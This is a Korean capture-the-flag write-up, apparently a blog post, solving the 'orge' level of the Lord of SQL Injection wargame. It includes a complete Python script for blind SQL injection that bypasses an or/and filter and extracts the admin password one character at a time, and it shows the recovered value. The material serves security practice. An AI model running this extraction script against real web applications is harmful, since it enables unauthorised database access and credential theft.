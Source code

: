 ```yaml
---
title: LOS - 7번 orge
category: [Wargame, Lord of SQL Injection]
---
```


# [07] orge

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbQxKQf%2FbtrnlmsKa5t%2FkOxOU4EvB5DqdsYjWKBc90%2Fimg.png">

## 풀이
                     
천천히 살펴보면, 4번 문제와 6번 문제를 합쳐놓았다는 것을 알 수 있다.

- 4번 Blind SQLi + 6번 or/and 필터링

<br> 

4번 문제를 풀 때 썼던 **Blind SQLi 자동화 코드**에

6번 문제를 풀 때 썼던 **or/and 필터링 우회 방법**을 적용시켜주면 될 것 같다.

<br>

따라서 자동화 코드의 파라미터 부분을 다음과 같이 수정해준다.


```
param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
```

1. or ⇒ \|\|

2. and ⇒ %26%26

<br>

```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id=\"admin\" %26%26 ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbFBWIL%2FbtrndGfEk8V%2FveTAKHtfAiuNDsNIMxDHhk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `7b751aec` 임을 알 수 있다.

## 결과
                     
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvEs0U%2FbtrnlnZu1Od%2F8RZ9nKvoAsYBx7nWkpj9KK%2Fimg.png">